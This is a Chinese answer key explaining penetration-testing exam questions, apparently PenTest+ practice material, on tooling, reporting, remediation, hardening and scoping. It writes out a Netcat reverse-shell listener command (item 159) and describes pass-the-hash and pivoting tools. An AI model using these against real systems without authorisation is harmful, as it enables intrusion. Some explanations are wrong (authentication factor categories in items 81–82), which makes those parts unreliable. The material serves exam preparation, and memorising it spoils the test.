在这种情况下，最佳选项是 `SSH` 和 `Wireshark`。安全 Shell (`SSH`) 提供加密连接。由于 `SSH` 非常常用，测试提供 `SSH` 系统是一个很好的选择。`Wireshark` 是一种协议分析器，允许渗透人员窃听并解析网络流量。`Wireshark` 也允许捕获无线网络的流量。

### 157. B 和 C
在这种场景下，脚本不需要包含 `let`，因此可以删除，并且在 `Bash` 中，等同于 `=` 有 `-eq`。一旦进行了这些修改，脚本将按预期工作。

### 158. A
`PowerShell` 要求在赋值时数组名称前使用 `$`。数组元素元素以逗号分隔列表提供。选项 B 在 `Bash` 中有效，选项 C 在 `Ruby` 或 `Python` 中有效，选项 D 不符合 `PowerShell` 命令的正确语法。`PowerShell` 在声明和使用变量方面简单得多。你只需要记住在变量名前加上 `$`，无论是为了设置、更改还是检索存储在变量中的值。

### 159. A
测试人员将创建一个 `Netcat` 监听器，等待来自目标机的 shell。为了获取 shell，`Netcat` 使用 `nc -nvlp 443` 监听入连接。使用这种语法，测试人员正在告诉 `Netcat` (`nc`) 不要解析名称 (`-n`)，启用详细模式并在连接发生时打印信息 (`-v`)，并在指定的本地端口上监听 (`-p`)。

### 160. D
在这种场景中，问题特别指出了“名称解析请求”。在这种情况下，`Responder` 是最佳选择。`Responder` 是一个用于响应网络上 Windows 系统 NetBIOS 查询的工具包。


# 161. A 和 F. nmap 最广为人知的特征之一是使用 TCP/IP 栈指纹进行远程操作系统检测。nmap 向远程主机发送一系列 TCP 和 UDP 数据包并检查其响应。
- `-iL <inputfilename>`：这是来自主机/网络列表的输入。
- `-sV`：该命令探测开放端口以确定服务/版本信息。

# 162. D. Metasploit 是一个用于开发漏洞并在实时目标上进行测试的工具。`socks4a` 辅助模块是框架内部的一个模块。该辅助模块提供了一个使用 Metasploit Framework 路由转发连接的代理服务器。因此，使用 `use auxiliary/server/socks4a` 模块允许测试人员从互联网访问私网。

# 163. A. Impacket 是一个用于处理网络协议的 Python 类集合。Impacket 提供了广泛工具，包括在捕获哈希值后使用哈希进行身份验证的能力。Metasploit 的 SMB 捕获模式、`Responder` 和 `Wireshark` 都可以从广播中捕获 SMB 哈希值，但在这种场景下，你还希望在捕获消息后具有使用哈希身份验证的能力。

# 164. B. 使用 nmap 的基本功能非常简单。对系统进行端口扫描只需要安装 `nmap` 并提供目标系统的主机名或 IP 地址。默认情况下，`nmap` 会扫描 TCP 和 UDP 最常用的 1000 个端口。然而，TCP 和 UDP 服务可用的完整端口范围为 1–65,535。

# 165. B. 在此场景中，我们使用的是条件执行，因此只有一个语句会被执行。所以在这种情况下，`if` 子句后面的代码将执行，导致 `elif` 或 `else` 子句无法执行。条件执行允许编写编写在满足特定逻辑条件时执行的代码。最常见的条件执行结构是 `if..then..else` 语句。

# 166. B. Shodan 是一个流行的安全搜索引擎，提供预建搜索，以及针对工业控制系统、数据库和其他常见查询的分类搜索。Shodan 是一个允许用户使用各种过滤器寻找连接到互联网的特定类型计算机和设备的搜索引擎。有些人将其描述为服务横幅（service banners）的搜索引擎，横幅是服务器返回给客户端的元数据。使用 Shodan 进行渗透测试需要一些横幅的基础知识，包括 HTTP 状态码。

# 167. A. 与 Shodan 类似，Censys 是一个以安全为导向的搜索引擎。当你深入 Censys 中的主机时，还会发现 geoIP 信息（如果可用）以及主机暴露的服务全面总结，提供了更详细的信息。GeoIP 指通过识别终端的 IP 地址来确定计算机终端地理位置的方法。

# 168. C. Sqlmap 是一个开源工具，用于对带有数据库后端的 Web 应用自动化 SQL 注入攻击。`Sqlmap` 是一个常用的开源数据库漏洞扫描器，允许安全管理员探测 Web 应用的数据库漏洞。对于此场景，`Sqlmap` 是专用的数据库漏洞扫描器，是最合适的工具。

## 第 5 章：报告与通信

1. B. 当你对渗透测试的数据进行归一化时，你会汇总测试期间使用的所有不同工具和过程产生的数据，并对其进行格式化，使其具有一致性和相关性。目标是让客户能够读取汇总数据并理解测试期间发生了什么以及何时发生。

2. D. 你为渗透测试编写的最终报告应包含一个标题为方法论（Methodology）的章节。在该章节中，你描述了用于执行测试的渗透测试方法。在此场景下，这里是指示遵循 PCI DSS 标准进行测试的合适位置。

3. A. 此外，“情境感知”（situational awareness）一语是指客户与测试人员对客户网络安全态势的共同理解状态。

4. C. “冲突消除”（de-confliction）一语是指客户与测试人员之间通信的过程，以确定渗透测试期间检测到的攻击是来自授权的渗透测试人员，还是某些第三方黑客发起的真实攻击。

5. B. “降级”（de-escalation）一语是指客户与测试人员之间通信的过程，以停止渗透测试期间使用的漏洞利用，因为它们可能对网络产生不利影响。

6. A. 此外，“情境感知”（situational awareness）一语是指渗透团队所有成员之间的共同理解状态，以确保每个团队成员都了解其他人在做什么。

7. A. 此外，“情境感知”（situational awareness）一语是指渗透团队所有成员之间的共同理解状态，以确保测试活动得到协调并在适当的时间进行。

8. B. “降级”（de-escalation）一语是指客户与测试人员之间通信的过程，以降低渗透测试期间使用的漏洞利用的强度，因为它们可能对网络产生不利影响。

9. C. “冲突消除”（de-confliction）一语是指客户与测试人员之间通信的过程，以确定渗透测试期间检测到的攻击是来自授权的渗透测试人员，还是某些第三方黑客发起的真实攻击。

10. C. 此外，“情境感知”（situational awareness）一语是指渗透团队所有成员之间的共同理解状态，以确保测试活动得到计划并在适当的时间协调进行。

11. B. “冲突消除”（de-confliction）一语是指客户与测试人员之间通信的过程，以确定渗透测试期间检测到的攻击是来自授权的渗透测试人员，还是某些第三方黑客发起的真实攻击。

12. D. “降级”（de-escalation）一语是指客户与测试人员之间通信的过程，以降低漏洞利用的强度甚至完全停止，因为它们可能引起不安全的情况。

13. B. “信任代理”（trusted agent）一语是指目标组织内部的人员（通常是 IT 管理员或经理），他们与渗透测试人员有直接联系。该人员通常负责客户与测试人员之间的冲突消除和降级通信。

14. A. “阶段”（stages）通信触发器发生在渗透测试从一个阶段进入另一个阶段时。

15. B. “关键发现”（critical findings）通信触发器发生在渗透测试人员发现严重的安全漏洞时，必须立即处理，而不是等待测试完成。

16. D. “先前的入侵迹”（indicator of prior compromise）通信触发器发生在渗透测试人员发现网络或系统已被其他攻击者入侵时。在这种情况下，测试人员通常会立即向客户报告此发现，而不是等待测试完成。

17. D. “阶段”（stages）通信触发器发生在渗透测试从一个阶段进入另一个阶段时。

18. B. “先前的入侵迹”（indicator of prior compromise）通信触发器发生在渗透测试人员发现网络或系统已被其他攻击者入侵时。在这种情况下，测试人员通常会立即向客户报告此发现，而不是等待测试完成。


### 19. B. `critical findings`（关键发现）通信触发器发生在渗透测试人员发现了一个极其严重的安全漏洞，其必须立即处理，而不是等待测试完成。

### 20. C. `stages`（阶段）通信触发器发生在渗透测试从一个阶段进展到另一个阶段时。

### 21. B. `critical findings`（关键发现）通信触发器发生在渗透测试人员发现了一个极其严重的安全漏洞，其必须立即处理，而不是等待测试完成。

### 22. A. `indicator of prior compromise`（先前的入侵迹）通信触发器发生在渗透测试人员发现网络或系统此前已被其他攻击者攻破。在这种情况下，测试人员通常会立即与客户通信该发现，而不是等待测试完成。

### 23. B. `Goal reprioritization`（目标重新优先级）发生在测试开始后，客户或测试人员决定将渗透测试的重点超出约定范围。在这种场景中，PCI DSS 测试正在被修改，以包含对新类型勒索软件的漏洞测试。

### 24. A. `Goal reprioritization`（目标重新优先级）发生在测试开始后，客户或测试人员决定将渗透测试的重点超出约定范围。在这种场景中，传统的灰盒测试被增加了一个黑盒组件。

### 25. B. 当你对渗透测试的数据进行归一化时，你汇总了测试期间使用的所有不同工具和过程产生的数据，并对其进行格式化使其一致且易于理解。

### 26. B. 在完成渗透测试后编写书面报告时，你应该在“方法论”（Methodology）部分指明你用于执行测试的标准或指南。在本例中，你会告知读者你使用了 `NIST 800-115` 方法论。

### 27. A. 在完成渗透测试后编写书面报告时，你应该在“执行摘要”（Executive Summary）中提供测试和结果的高级概述。通常，这是报告的第一部分，面向技术性较弱的受众。

### 28. D. 在完成渗透测试后编写书面报告时，你应该在“指标与衡量”（Metrics and Measures）部分报告你的风险评级。这些评级允许读者对风险进行优先级排序，并对在不同时间进行的渗透测试进行比较。

### 29. A. 在完成渗透测试后编写书面报告时，你应该在“执行摘要”（Executive Summary）中提供测试和结果的高级概述。通常，这是报告的第一部分，面向技术性较弱的受众。

### 30. B. 在完成渗透测试后编写书面报告时，你应该在“方法论”（Methodology）部分指明你用于执行测试的标准或指南。在本例中，你会告知读者你使用了 `EC-Council’s CEH` 方法论。

### 31. C. 在完成渗透测试后编写书面报告时，你应该在报告的“发现与修复”（Findings and Remediation）部分列出你发现的漏洞，以及你是如何发现它们的。

### 32. C. 在完成渗透测试后编写书面报告时，你应该在报告的“发现与修复”（Findings and Remediation）部分列出你发现的漏洞，以及你是如何发现它们的以及客户可以做什么来解决问题。在本例中，你应该在该部分建议他们安装微软的 `MS17-010` – 关键更新。

### 33. D. 在完成渗透测试后编写书面报告时，你应该在“指标与衡量”（Metrics and Measures）部分报告你的评级。这些评级允许读者对风险进行优先级排序，并对在不同时间进行的渗透测试进行比较。

### 34. E. 在完成渗透测试后编写书面报告时，你应该在“结论”（Conclusion）部分报告你的建议。

### 35. C. 你包含在书面报告“发现与修复”（Findings and Remediation）部分中的信息通常会受到客户风险偏好的限制。例如，一个风险偏好较高的组织可能希望你只包含你发现的高风险或关键风险漏洞的信息，而不报告中风险或低风险的漏洞。

### 36. E. 在完成渗透测试后编写书面报告时，你应该在“结论”（Conclusion）部分报告你的建议，包括你认为客户何时应该进行后续渗透测试。

### 37. D. 通常，渗透测试完成后报告没有法律规定的存储时间。你被存储客户报告的时间将由你的合同规定。

### 38. D. 书面发现报告包含高度敏感的信息，因此应该被安全处理。它不应以易于被盗的方式存储。在这种场景下，将报告存储在文件服务器上的加密文件中会比其他选项更难被盗取。

### 39. A. 书面发现报告包含高度敏感的信息，因此应该被安全处理。它不应以易于被盗的方式存储。在这种场景下，将报告的纸质副本存储在固定在地板上的锁文件柜中会比其他选项更难被盗取。

### 40. A. 书面发现报告包含高度敏感的信息，因此应该被安全处理。它不应以易于被盗的方式存储。在这种场景下，将文件刻录到光盘并存储在安全的保险箱中会比其他选项更难被盗取。

### 41. B. 书面发现报告包含高度敏感的信息，因此应该被安全处理。它不应以易于被盗的方式存储。在这种场景下，将文件保存到加密 U 盘中并存储在安全的柜子内会比其他选项更难被盗取。

### 42. C. 书面发现报告包含高度敏感的信息，因此应该被安全处理。它不应以易于被盗或被恢复的方式进行处理。在这种场景下，擦除驱动器将更难从驱动器中恢复文件。

### 43. D. 书面发现报告包含高度敏感的信息，因此应该被安全处理。它不应以易于被盗或被恢复的方式进行处理。在这种场景下，粉碎文件将更难从报告中恢复数据。

### 44. A. 书面发现报告包含高度敏感的信息，因此应该被安全处理。它不应以易于被盗或被恢复的方式进行处理。在这种场景下，物理销毁廉价的 U 盘将更难从报告中恢复数据。

### 45. B. 书面发现报告包含高度敏感的信息，因此应该被安全处理。它不应以易于被盗或被恢复的方式进行处理。在这种场景下，物理销毁光盘将更难从报告中恢复数据。


46. A. 为 VPN 连接实施多因素身份验证是技术缓解策略的示例。

47. B. 为所有员工实施定期的安全意识培训是基于人员的缓解策略的示例。

48. C. 在员工离开组织时实施离职流程是基于流程的缓解策略的示例。

49. B. 要求 IT 人员通过网络安全认证考试是基于人员的缓解策略的示例。

50. A. 强制使用复杂密码并实施账户限制是技术缓解策略的示例。

51. B. 招聘具有网络安全经验的额外 IT 人员是基于人员的缓解策略的示例。

52. C. 禁止员工使用如 Google Drive 等外部云服务是基于流程的缓解策略的示例。

53. A. 在主入口实施人笼步道（mantrap）是技术缓解策略的示例。

54. A. 实施定向无线天线并操纵访问点功率水平以防止信号泄露是技术缓解策略的示例。

55. C. 要求付款项经过多次签字是基于流程的缓解策略的示例。

56. B. 对员工进行安全意识培训是基于人员的缓解策略的示例。

57. D. 在此处提供的选项中，修复共享本地管理员凭据的最好建议是简单随机化这些凭据。否则，破解一台桌面电脑上的本地管理员密码将暴露组织中的所有其他桌面。

58. B. 在此处提供的选项中，修复共享本地管理员凭据的最好建议是实施微软的本地管理员密码解决方案 (LAPS)。该解决方案会定期随机化本地管理员密码并将这些密钥保存在 Active Directory 中。

59. B and C. 可以使用 `Password must meet complexity requirements` 和 `Minimum password length` 组策略设置来强制执行某种程度的密码复杂度。默认情况下`Password must meet complexity requirements` 策略要求密码至少六个字符，并包含以下四类字符中的三类：大写字母、小写字母、数字和特殊字符。最小密码长度则定义了密码可以包含的最少字符数。

60. A. `Enforce password history` 组策略设置了用户在重新使用旧密码之前必须使用的多少个唯一的新密码。配置此策略通过防止用户重用旧密码来增强安全性。

61. D. `Maximum password age` 组策略设置决定了用户在强制更改新密码之前可以保持相同密码多长时间。一旦超过该时间，用户将被强制创建一个新密码。

62. C. `Minimum password age` 组策略设置决定了用户在允许更改新密码之前必须保持相同密码多长时间。在时间时间结束之前，用户被强制保持相同密码。这防止了用户通过不断更改密码来绕过 `Enforce password history policy` 设置。

63. A. 在 Linux 系统上可以使用 `chage` 命令为用户账户配置密码过期策略。

64. D. `Account lockout threshold` 组策略设置决定了用户在账户锁定之前被允许的失败登录尝试次数。

65. B. `Account lockout duration` 组策略设置决定了账户被锁定的时间。

66. C. `Reset lockout counter after` 组策略设置决定了在重置锁定计数器后必须经过的时间。

67. A. 在 Linux 系统上可以使用 `chage` 命令为用户账户配置密码过期策略。

68. A. `Store passwords using reversible encryption` 策略极不安全。

69. B. 因为该应用程序是内部开发的，所以在将密码保存到数据库之前应对进行加密。

70. A. 在 Linux 系统上可以使用 `chage` 命令锁定账户。

71. C. 彩虹表是一张预计算的哈希值表，可用于反转哈希函数。

72. A. 哈希加盐（Salting）涉及在哈希操作中添加额外的随机数据。

73. B. 密钥扩展（Key stretching）涉及将待哈希的值通过哈希函数运行多次。

74. C. 用户名和密码都是“你知道的”的示例，因此不构成多因素身份验证。

75. A. PIN 码是“你知道的”的示例。

76. C. 视网扫描是“你所属的”的示例。

77. C. 组织内部局域网的硬件连接是“你所在地”的示例。

78. A. RFID 近距离读卡器可防止用户在未物理出现在面前的情况下对系统进行身份验证。

79. C. 要求用户提供生物识别扫描（你所属的）以及 PIN 码（你知道的）构成了多因素身份验证。

80. B. 要求用户提供密码（你知道的）加安全令牌生成器（你拥有的）构成了多因素身份验证。

81. D. 双因素身份验证 (2FA) 要求用户提供来自不同类别的因素。在这种情况下，要求用户提供用户名（你知道的）、PIN 码（你知道的）和面部识别扫描（你所属的）构成了 2FA 身份验证。


## 82. B. 三因素身份验证 (3FA) 要求用户提供来自三个不同类别的因素。在这种情况下，要求用户提供用户名（你所知的）、PIN 码（你所知的）、指纹扫描（你所有的）和一次性密码（你拥有的）就构成了 3FA 认证。

## 83. A. 在这种场景下，你可以建议重写应用程序，以便在将用户输入提交到后端数据库之前对其进行清理（sanitized）。例如，假设应用程序包含一个用户应输入电话号码的字段。程序员可以验证输入的信息是否仅包含数字（且仅是电话号码的正确数字）。这可以防止恶意攻击者向这些字段提交 SQL 语句，从而可能暴露数据库中的信息。

## 84. A. 在这种场景下，你可以建议重写应用程序以对数据进行转义（escaped）。转义是通过剥除不需要的信息（例如格式不规范的 HTML 或脚本标签）来确保数据安全的过程。这可以防止数据被视为代码。转义数据有助于在为最终用户渲染数据之前确保信息安全，并有助于防止 SQL 注入和跨站脚本攻击。

## 85. C. 使用参数化查询（Parameterized queries）通常被认为比清理用户输入更有效的 SQL 注入攻击防御方法。通过参数化查询，使用带有绑定变量的预处理语句来访问 SQL 数据库。

## 86. A. 服务器上启用的每个网络服务都会扩大该服务器的攻击面。因此，应该只安装真正需要的服务。在这种场景下，Web 服务器可能不需要运行 DNS、DHCP、打印或电子邮件服务。这些应该被移除。

## 87. B 和 D. 服务器上启用的每个网络服务都会扩大该服务器的攻击面。因此，应该只安装真正需要的服务。在这种场景下，域控制器不应运行用于虚拟化的 Hyper-V。同样，联邦服务（Federation Services）仅在一个 Active Directory 域与另一个 Active Directory 域关联时才使用。

## 88. A 和 E. 为了加固 Windows 计算机系统的用户账户，你应该使用组策略配置账户锁定。这将有助于减慢甚至防止破解或密码猜测攻击。你还应该立即禁用或删除所有未使用的用户账户。

## 89. B 和 D. 为了加固 Windows 计算机系统的用户账户，你应该使用组策略强制执行密码复杂度要求。例如，你可以要求特定的密码长度并使其包含特定的字符组合。你还应该使用组策略强制执行密码年龄要求。这要求用户定期更改密码。

## 90. E. 为了加固 Windows 计算机系统的网络通信，你应该限制通过网络访问计算机的权限，仅允许经过身份验证的用户访问。

## 91. A. 为了加固 Windows 计算机系统的网络通信，你应该正确配置 Windows 防火墙。首先，你应该关闭所有端口，以确保没有端口被意外开启。然后仅为系统上已安装且所需的的服务开放端口。

## 92. A 和 C. 为了加固 Windows 计算机系统，你应该考虑安装额外的系统内存并禁用 Windows 分页文件（paging file）。这可以防止本应仅以未加密格式存储在 RAM 中的敏感数据被写入磁盘分页文件。你还应该禁用任何不需要的服务。

## 93. D. 为了加固 Windows 计算机系统，你应该禁用自动运行（autorun）。这有助于防止在向系统插入受感染的光盘或 USB 驱动器时，恶意软件被安装到系统上。

## 94. A. 为了加固 Linux 服务器系统，你应该确保通过启用和配置 `iptables` 来使主机防火墙运行起来。你应该首先在防火墙中关闭所有网络端口，然后仅开放系统上运行的特定服务所需的端口。

## 95. B. 为了加固 Linux 服务器系统，你应该确保使用 `SSH` 而不是 `Telnet` 对系统进行远程访问。`SSH` 会加密 `SSH` 服务器与 `SSH` 客户端之间所有的网络流量。相反，`Telnet` 以明文形式传输所有数据，包括身份验证凭据。

## 96. A. 为了加固服务器系统，你应该确保只安装其角色所需的服务和应用程序。可以使用 `netstat` 命令检查系统上监听状态的网络端口。这将揭示哪些服务运行在系统上。

## 97. B. 为了加固服务器系统，你应该确保所有用户账户都分配了密码。此此一种方法是检查 `/etc/shadow` 文件并寻找任何未分配密码的账户。

## 98. D. 为了加固服务器系统，你应该确保所有过期的用户账户都已禁用或删除。在这种场景下，客户端不想删除账户，因为临时用户或合同工将来可能会回来。要手动锁定账户，你可以使用 `passwd –l` 命令后跟用户名。

## 99. C. 加固服务器系统的一种方法是重新配置它，将其日志记录保存到网络其他处的专用日志服务器上。这使得攻击者在入侵后更难掩盖其踪迹，因为日志文件没有存储在本地。

## 100. A. `FTP` 协议不加密系统之间的数据传输。这意味着身份验证信息以及数据本身在网络传输过程中都是暴露的。为了解决这个问题，你应该建议客户端切换到 `FTPS` 而不是 `FTP`。`FTPS` 协议使用 `SSL` 或 `TLS` 来加密 `FTP` 会话，因为它们可以加密数据。


### 105. A 和 D
在这种场景下，可以使用方向性访问点对无线网络进行加固。这有助于防止信号泄露到停车场。此外，应该在无线网络上禁用 `DHCP`。虽然这会让管理工作变得更加困难，但它也能防止攻破无线网络的攻击者自动获取其访问网络资源所需的所有配置信息。

### 106. B 和 C
在这种场景下，可以通过为特权访问创建加密密码来对路由器进行加固。这是通过在路由器使用 `enable secret` 命令来实现的。此外，应该建立相关程序来审核那些声称是 IT 供应商代表的访客。

### 107. A
在渗透测试之后，撤销你所做的一切至关重要。实现这一点的最佳方法是在进行测试时仔细记录你所做的一切。这样，你就拥有一份记录，说明哪些必须恢复，以及清理完成后它们应该是什么样子。

### 108. A 和 C
在渗透测试之后，撤销你所做的一切至关重要。例如，如果你设置了任何 shell 会话（特别是反向 shell），你需要确保它们已被移除。此外，你应该在测试后的清理过程中记录你所做的一切。在清理过程中你可能会无意中破坏某些东西。如果发生这种情况，拥有你操作过的记录将是无价的。

### 109. B
在渗透测试之后，撤销你所做的一切至关重要。例如，如果你创建了任何后门用户账户，你应该确保删除了这些凭据。你不应该将它们保留，因为它们以后可能被真实的攻击者用来攻破系统。

### 110. A
在渗透测试之后，撤销你所做的一切至关重要。例如，卸载你在测试期间用于执行漏洞利用的任何工具或实用程序至关重要。

### 111. A
在渗透测试之后，向客户传达发生了什么以及发现了什么至关重要。在结果结果证实过程中，你会向客户传达你所发现的详细证据。然后，客户可以使用这些信息来修复所发现的问题。

### 112. C
在渗透测试完成后，测试人员通常会要求客户同意（通常是书面形式），确认测试人员已履行了最初与其签署的合同。这一过程被称为 `client acceptance`（客户验收）。

### 113. C
在渗透测试完成后，客户要求测试人员回来重新测试一切并不罕见，以确保测试期间发现的问题已经得到修复。这一过程有时被称为 `follow-up actions`（后续行动）。

### 114. A 和 C
在渗透测试完成后，你应该与你的团队会面并讨论教训。你应该识别哪些工作进展得很顺利，哪些地方需要改进。例如，你应该讨论哪些漏洞利用成功了，哪些没有。你应该记录使用这些漏洞利用的最佳实践，以便在下一次进行渗透测试时不需要重新学习它们。

### 115. C
通用漏洞评分系统 (`CVSS`）是评估安全漏洞严重程度的行业标准。它提供了一种技术，根据各种衡量标准对每个漏洞进行评分。安全分析师经常使用 `CVSS` 评分来确定响应措施的优先级。每个衡量标准都给出一个描述性评分和一个数值分。

### 116. A 和 B
这些可能是需要立即与客户通信的时刻。以下是一些常见的渗透测试通信触发点。通信触发应在测试阶段完成、发现严重漏洞或发现系统之前曾被入侵的迹象时进行。在这种场景下，如果系统在尝试测试后变得不可用，且系统显示出未经授权访问的迹象，我们应该联系客户。

### 117. D
在这种场景下，客户没有预算立即纠正发现的所有漏洞。在这种情况下，给客户的最佳建议是先修复最严重的漏洞，等资金到位后，再修复其他高危漏洞。

### 118. A
在这种场景下，由于公共 Web 服务器上有多个高位端口在监听。最佳建议是禁用不需要的服务，因为客户只使用 `443` 以外的端口。不必要的服务可能会带来安全风险，因为它们增加了攻击面，为潜在的攻击者提供了尝试利用系统的额外途径。

### 119. C
系统加固（也称为操作系统加固）有助于减少安全漏洞。系统加固的目的是尽可能消除安全风险。这通常通过从计算机中删除所有非必要的软件程序和实用程序来实现。通过删除未使用的程序、账户、功能、应用程序、端口、权限、访问等进行系统加固，其目标是让攻击者减少访问你网络的机会。系统加固活动有几种类型，包括以下：

* 应用程序加固
* 操作系统加固
* 服务器加固
* 数据库加固
* 网络加固

### 120. B, E 和 G
在这种情况下，由于测试人员能够攻破单个工作站并能够在网络中进行横向移动，给客户的最佳建议如下：

* 使用多因素身份验证。多因素身份验证 (`MFA`) 是一种身份验证方法，计算机用户在向身份验证机制成功提交两个或更多证据（或因素）后，才被授予访问权限。
* 增加最小密码复杂度。复杂密码通过独特的方式不同类型的字符来提高安全性，使攻击者难以破解。
* 启用全磁盘加密。全磁盘加密 (`FDE`) 是硬件级别的加密。`FDE` 的工作原理是将硬盘上的数据转换为没有密钥的人无法理解的形式，除非能撤销这种转换。

### 121. B
在这种场景下，题目指出渗透测试人员正在编写一份“概述整体风险水平”的报告。根据这一陈述，测试人员将此信息包含在执行摘要中。执行摘要是报告中最重要的部分。它应该以清晰的方式传达报告中的所有重要结论，并使用“通俗易懂的语言”编写。测试人员应该用简单的语言解释发现了什么，并用客户能理解的方式描述业务风险。

### 122. B
在这种场景下，由于渗透测试人员发现了一个严重漏洞，测试人员应立即通知客户该结果的细节。

### 123. A
在这种场景下，攻击者正在使用重定向。安全分析师应该阻止 URL 重定向。URL 重定向是一种 Web 服务器功能，将用户从一个 URL 送到另一个 URL。重定向通常以自动重定向的形式出现，使用 HTTP 协议定义的系列状态码。因此，当 Web 浏览器尝试打开重定向的 URL 时，会打开一个具有不同 URL 的页面。


### 124. A, F, and G
在这种场景下，测试人员应建议客户增加密码复杂度要求，因为测试人员能够通过字典攻击破解密码。测试人员还应建议所有员工参加安全意识培训，因为是 IT 部门的一名成员在测试人员使用钓鱼技术时泄露了相关信息。测试人员还应该升级用于 VPN 解决方案的加密套件。加密套件是一组帮助保护网络连接的算法，使用传输层安全协议 (`TLS`) 或安全套接层 (`SSL`)。加密套件通常包含的算法集包括密钥交换算法、批量加密算法和消息认证码 (`MAC`) 算法。

### 125. A
在这种场景下，测试人员应建议客户启用 HTTP 严格传输安全 (`HSTS`)。`HSTS` 响应头允许网站告诉浏览器应该只通过 `HTTPS` 访问，而不是使用 `HTTP`。这是一个通过 Web 应用程序使用特殊响应头指定的可选安全增强。一旦支持的浏览器接收到此头部，该浏览器将防止任何通过 `HTTP` 发送到指定域名的通信，转而通过 `HTTPS` 发送所有通信。

### 126. C
在这种场景下，将客户组织的风险容忍度纳入执行摘要中是非常重要的。风险容忍度基本上是指组织在考虑投资时愿意承担多少风险。对于任何类型的投资，风险总是存在的，但一个人能够承受多少风险取决于其风险容忍度。这对于每个组织来说可能不同。你无法为风险容忍度设定一个固定值。

### 127. D
在这种场景下，由于测试是由公司内部的初级管理员执行的，对公司最有利可能是向一家专业的渗透测试公司编写一份建议建议书 (`RFP`)，以对评估结果达成一致并让公司获得任何漏洞发现。`RFP` 是一份征集建议的文档，通常通过招标过程进行。

### 128. A
在这种场景下，问题问的是安全分析师首先应该做什么。一旦识别出漏洞，你就对风险进行评分并评估它对你组织的影响。评分将决定继续工作是否足够安全，或者你是否需要采取额外的控制措施来减少或消除风险。评分取决于事件发生的概率和漏洞的严重性。这是通过确定概率是 `Low`（低）、`Medium`（中）还是 `High`（高），然后对影响进行同样的操作完成。`0` 到 `9` 的分级分为三部分：`0` 到 `<3` 是 `Low`，`3` 到 `<6` 是 `Medium`，`6` 到 `9` 是 `High`。

### 129. A
在这种场景下，最好的做法是在教训阶段重新审视此情况。教训会议是团队在没有客户参与的情况下聚在一起讨论测试过程和结果的机会。团队成员应该自由地讨论测试并提供改进建议。教训会议是一个突出测试期间可能使用的任何创新技术的好机会，这些技术可能在未来的任务中被使用。

### 130. B
在这种场景下，告诉客户的最佳选项是使用智能卡和 `PINs`。多因素身份认证 (`MFA`) 是一种安全系统，它要求来自不同类别凭据的多种验证方法，以验证用户登录或其他交易的身份。身份验证的类别包括你所知的、你拥有的以及你所的。

### 131. A
最好的建议是禁用任何不需要的服务。不必要的的服务会带来安全风险，因为它们增加了客户的网络攻击面，为潜在的攻击者提供了多种尝试利用系统的途径。攻击面是给定计算设备或网络中潜在黑客可以访问的漏洞总和。

### 132. A
本地管理员密码解决方案 (`LAPS`) 是一个管理管理员凭据的微软工具。它用于使用 `Active Directory` 随机化本地管理员帐户凭据。限制管理员密码助手 (`LAPA`) 不存在。`Nessus` 是一个漏洞扫描器，而 `Metasploit` 是一个用于执行和攻击网络的漏洞利用框架。

### 133. D
执行摘要不应包含技术细节。执行摘要是报告最重要的部分。它的编写方式应该以通俗易懂的语言清晰地传达报告的所有重要结论。测试人员应该用简单的语言解释发现的内容，并用客户理解的术语描述对业务的风险。

### 134. B, C, and D
CompTIA 强调了三个重要的参与后清理活动：

*   删除渗透测试期间安装在系统上的任何 shell。
*   删除测试期间安装的任何测试人员创建的账户、凭据或后门。
*   删除测试期间安装的任何工具。
*   漏洞修复是一项后续活动，不是作为测试的一部分进行的。测试人员应该删除测试期间安装的任何 shell 或工具，并删除他们创建的任何账户或凭据。

### 135. D
在这种场景下，你正在讨论技术。技术控制也对许多安全威胁提供了有效的防御。修复活动主要分为三大类：人员、流程和技术。

### 136. B
在这种场景下，你和同事正在讨论你拥有的东西。物理对象可以用作认证机制。寻求保护敏感信息和关键资源的组织应该实施多因素认证。多因素认证的实现结合了来自不同类别的两个或多个认证机制。认证类别包括你所知的、你拥有的以及你所的。

## 第六章：练习题 1

### 1. A
机密性控制防止披露攻击。虽然保协议 (`CA`) 是有助于执行双方保密关系的法律文件，但这个问题问的是为什么要维护机密性。如果攻击者在渗透测试期间获得发现结果，他们可以利用这些信息入侵客户的网络。

### 2. A and B
执行规则 (`ROE`) 应该始终包含测试的时间表，并对任何法律进行审查，特别是约束客户的法律，以确保你不违法。之前测试过的其他组织列表或客户竞争对手列表不需要包含在 `ROE` 文档中。客户网络的详细地图对于 `ROE` 不需要，但对于渗透测试可能需要。

### 3. D
在这种场景下已根据需要定义了执行规则 (`ROE`)。`ROE` 的关键要素包括：

*   参与的时间表和可以进行测试的时间。
*   包含/排除哪些位置、系统、应用程序或其他目标。此外，任何特殊的技术限制都应在 `ROE` 中说明。
*   对渗透测试期间收集的任何信息的数据处理要求。
*   预期哪些行为。任何防御行为，如封禁、黑名单或其他主动防御可能会限制渗透测试的价值。
*   测试将投入哪些资源。


- 任何需要解决的法律问题，包括对影响客户组织、渗透测试团队、任何远程地点以及任何在范围内的服务提供者的监管关注进行总结。
- 通信将在何时以及如何进行。
- 在发生特定事件时联系谁，例如发现被入侵的证据、意外违背 `ROE`、发现关键漏洞或其他需要立即关注的事件。
- 谁被允许与渗透测试团队取得联系。

### 4. D. 在进行渗透测试之前，你必须获得客户组织高级管理层的书面许可以开始测试。通过口头或电子邮件获得许可是不可接受的。从 IT 人员处获得许可也是不可接受的。

### 5. A and E. 在这种情况下，本次任务的范围仅限于内部网络。`Microsoft Office 365`、`Google Docs` 和 `Microsoft Azure` 都是由第三方托管的云服务，因此被认为在范围之外。`Active Directory` 用户和在 `Group Policy` 中定义的密码策略被认为在范围之内。

### 6. A and B. 在这种情况下，你正在进行白盒评估。因此，当作为测试的一部分请求内部架构图时，你通常会获得如网络图和设施地图之类的文档。你可以使用这些信息帮助绘制网络拓扑结构并定位关键基础设施设备，如交换机、路由器和服务器。

### 7. A. `Simple Object Access Protocol` (`SOAP`) 是一种消息协议规范，定义了 Web 应用程序之间如何交换结构化信息。`SOAP` 项目文件可以从 `Web Services Description Language` (`WSDL`) 文件创建。

### 8. B. `Swagger` 是用于定义 `REST APIs` 的开放规范。`Swagger` 文档等同于基于 `SOAP` 的 Web 服务的 `WSDL` 文档。`Swagger` 文档指定了 `REST API` 中可资源列表以及可以在这些资源上调的操作。它还指定了操作的参数列表，包括参数名称和类型、参数是必选还是可选，以及关于这些参数可用值的信息。因此，访问 `Swagger` 文档可以为测试人员提供 API 如何工作的良好视图，从而让他们知道该如何进行测试。

